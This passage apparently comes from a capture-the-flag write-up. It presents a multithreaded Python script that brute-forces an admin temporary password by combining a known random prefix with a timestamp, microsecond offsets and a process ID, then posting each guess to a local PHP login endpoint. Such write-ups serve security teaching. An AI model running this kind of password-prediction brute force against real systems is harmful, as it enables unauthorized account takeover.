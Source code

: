 IMPORTANT: you have to run this in a php5.6 environment for this to generate properly. You might as well just use the the same docker container that you are running the challenge. You can check the output of each string generation with the CSRF token and the "random" string at the start of the temporary password sent to your test user. 

Let's move on, using `uucoxcyz` as the string starting the admin temporary password. Here is the brute force script:
```python
def brute(stop_flag, success_password, offset, num_threads):
    """
    This will brute force potential passwords. The offset and # of threads
    will determine how each thread counts. 

    Ex: 4 threads means that each thread will increment micro_min by 4 and 
        start on +0, +1, +2, +3 offsets of the micro_min.

        if micro_min is 10, each thread counts as follows:
            thread 1: 0, 4, 8, 12, ...
            thread 2: 1, 5, 9, 13, ...
            thread 3: 2, 6, 10, 14, ...
            thread 4: 3, 7, 11, 15, ...
    """
    sec = 1688929912
    pid = 18
    micro_min = 198843 + 90000 + offset
    micro_max = micro_min + 60000
    start = "uucoxcyz"

    username = 'admin'
    while micro_min < micro_max:
        if stop_flag.is_set():
            return
        pwd = start + str(sec) + str(micro_min) + str(pid)
        print(pwd)
        if login(username, pwd):
            success_password[0] = pwd
            stop_flag.set() 
            return 
        
        micro_min += num_threads


def login(username, pwd):
    
    data = {
        'uid': username,
        'pwd': pwd,
        'submit': ''
    }
    response = requests.post('http://127.0.0.1/modules/login.inc.php', data=data)
    if "Buy seeds" in response.text:
        return True
    

start = time.time()

stop_flag = threading.Event()
success_password = [None]
threads = []
num_threads = multiprocessing.cpu_count() 
for offset in range(num_threads):
    thread = threading.Thread(target=brute, args=(stop_flag, success_password, offset, num_threads))
    thread.start()
```